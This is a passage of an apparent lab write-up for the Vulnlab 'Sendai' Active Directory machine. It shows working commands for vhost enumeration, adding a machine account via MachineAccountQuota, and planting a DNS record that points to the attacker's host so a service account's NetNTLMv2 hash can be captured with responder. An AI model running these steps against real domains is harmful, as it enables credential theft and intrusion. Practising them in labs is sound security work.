 ```
[+] Exclude Length:   334
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: service.sendai.vl Status: 200 [Size: 4189]
```

Browsing to this subdomain (after editing it into our `/etc/hosts` file) will lead us to the DownDetector.

![](/images/vulnlab/sendai-vl/f.png)

This website seems to be an internal website scan, which will verify if a subdomain within the environment is experiencing issues. It seems as though this requires no authentication, however its usability can be severe.

It allows us to prompt a subdomain to check, meaning this website will probably submit an LDAP request to the subdomain that we specify. What's great is that we actually have the ability to create a fake subdomain due to `Elliot.Yates` Machine Account Quota (MAQ). This let's us create a computer account, to which we can use to create an LDAP record of a fake subdomain that points back to our attacker machine. If there is a service account associated with this web service, we can capture their NetNTLMv2 hash using `responder`.

```
└─$ crackmapexec ldap 10.10.98.227 -u 'Elliot.Yates' -p 'Password123@' -M maq
SMB         10.10.98.227    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAP        10.10.98.227    389    DC               [+] sendai.vl\Elliot.Yates:Password123@ 
MAQ         10.10.98.227    389    DC               [*] Getting the MachineAccountQuota
MAQ         10.10.98.227    389    DC               MachineAccountQuota: 10
```

It isn't necessarily needed for us to create a computer account for this attack, as all we need to do is create the fake LDAP record. It is odd though how we have a MAQ of 10, and given that this is what I'm used to doing - I decided to set up a domain computer account anyways.

Let's first start with creating the domain computer.

```
└─$ impacket-addcomputer -dc-ip 10.10.98.227 -computer-name daz -computer-pass 'Password123@' sendai.vl/Elliot.Yates:'Password123@'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account daz$ with password Password123@.
```

We can then use `dnstool.py` in the [KrbRelayX](https://github.com/dirkjanm/krbrelayx) library to create the fake LDAP record, using our new computer account credentials.

```
└─$ python3 krbrelayx/dnstool.py -u 'sendai.vl\daz$' -p 'Password123@' -r daz.sendai.vl -d 10.8.0.173 --action add dc.sendai.vl -dns-ip 10.10.98.227
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
